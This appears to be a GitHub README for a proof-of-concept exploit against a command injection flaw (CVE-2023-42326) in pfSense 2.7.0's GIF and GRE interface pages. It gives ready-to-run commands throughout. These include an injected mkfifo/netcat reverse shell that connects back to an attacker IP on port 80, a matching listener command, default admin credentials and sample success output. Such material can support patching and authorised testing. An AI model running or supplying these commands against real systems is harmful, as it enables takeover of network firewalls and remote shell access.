

# pfSense 2.7.0 Command Injection Exploit (CVE-2023-42326)

This Python script is a Proof-of-Concept (PoC) exploit for the command injection vulnerability (CVE-2023-42326) in pfSense 2.7.0. The vulnerability allows authenticated attackers to inject and execute arbitrary commands via the `interfaces_gif_edit.php` and `interfaces_gre_edit.php` components.

## Features
- Exploit mode selection (`gif` or `gre`) to choose the vulnerable components.
- Command injection capability to run arbitrary shell commands.
- Netcat reverse shell handling with automatic thread management.
- Debug mode for enhanced visibility of request data.

## Prerequisites
Before running the script, make sure you have:
- Python 3.x installed on your system.
- Required Python libraries installed:
  ```bash
  pip install requests beautifulsoup4 rich
  ```

## Usage

### Basic Example (Command Injection)

This command injects a shell command that creates a reverse shell back to your machine:

```bash
python3 exploit.py -u "admin" -p "pfsense" --mode "gif" -t "http://10.101.1.1" -c "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.151.1 80 > /tmp/f &"
```

- `-u`: Username for pfSense admin login.
- `-p`: Password for pfSense admin login.
- `--mode`: Exploit mode (either `gif` or `gre`).
- `-t`: Target URL of pfSense.
- `-c`: The shell command to inject.
- `-d`: (Optional) Enable debug mode to see raw response data.

### Reverse Shell Example
Ensure you have a Netcat listener running on your machine:

```bash
nc -lvnp 80
```

Then, run the script with a reverse shell command like this:

```bash
python3 exploit.py -u "admin" -p "pfsense" --mode "gif" -t "http://10.101.1.1" -c "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.151.1 80 > /tmp/f &"  --insecure(for https without valid ssl)
```

### Demo GIFs

1. **Logging into pfSense and Exploiting GIF Interface**

   

2. **Executing a Reverse Shell**

   

### Script Options
| Argument      | Description                                                        |
|---------------|--------------------------------------------------------------------|
| `-u`          | Username for pfSense admin login.                                  |
| `-p`          | Password for pfSense admin login.                                  |
| `-t`          | Target pfSense URL/IP address (e.g., `http://10.101.1.1`).         |
| `--mode`      | Exploit mode: `gif` (for `interfaces_gif_edit.php`) or `gre`.      |
| `-c`          | Command to inject into the vulnerable component.                   |
| `-d`          | Optional. Enable debug mode to print response data for visibility. |

### Example Output
When the exploit runs successfully, you should see output similar to this:

```bash
██████╗ ███████╗██████╗ ██╗    ██╗███╗   ██╗███╗   ███╗███████╗
██╔══██╗██╔════╝██╔══██╗██║    ██║████╗  ██║████╗ ████║██╔════╝
██████╔╝█████╗  ██████╔╝██║ █╗ ██║██╔██╗ ██║██╔████╔██║█████╗  
██╔═══╝ ██╔══╝  ██╔═══╝ ██║███╗██║██║╚██╗██║██║╚██╔╝██║██╔══╝  
██║     ██║     ██║     ╚███╔███╔╝██║ ╚████║██║ ╚═╝ ██║███████╗
╚═╝     ╚═╝     ╚═╝      ╚══╝╚══╝ ╚═╝  ╚═══╝╚═╝     ╚═╝╚══════╝

Done with ❤️  by @bl4ckarch                                                            
[2024-10-24 03:57:59] [SUCCESS] Target http://10.101.1.1 is reachable
[2024-10-24 03:57:59] [INFO] Fetching CSRF token from: http://10.101.1.1/
[2024-10-24 03:57:59] [SUCCESS] CSRF token extracted successfully
[2024-10-24 03:57:59] [INFO] Sending GIF exploit request to http://10.101.1.1/interfaces_gif_edit.php
[2024-10-24 03:57:59] [SUCCESS] GIF Exploit sent successfully
```

### Notes

- **Privilege Requirement**: You must have valid admin credentials for the pfSense instance.
- **Target System**: This exploit is specific to pfSense 2.7.0.
- **Reverse Shell**: Ensure your firewall settings allow incoming connections on the specified port when setting up a reverse shell.

### Debug Mode

If you want to see more details about the requests being sent, you can enable debug mode by adding `-d` to your command. This will print out response data and help you troubleshoot any issues.

```bash
python3 exploit.py -u "admin" -p 'pfsense' --mode 'gif' -t http://10.101.1.1 -c "your_command_here" -d --insecure(for https without valid ssl)
```

### Troubleshooting
- Ensure the target system is reachable.
- Double-check the credentials being used for login.
- Use the `-d` flag for more detailed logging if needed.

### License

This project is licensed under the MIT License.
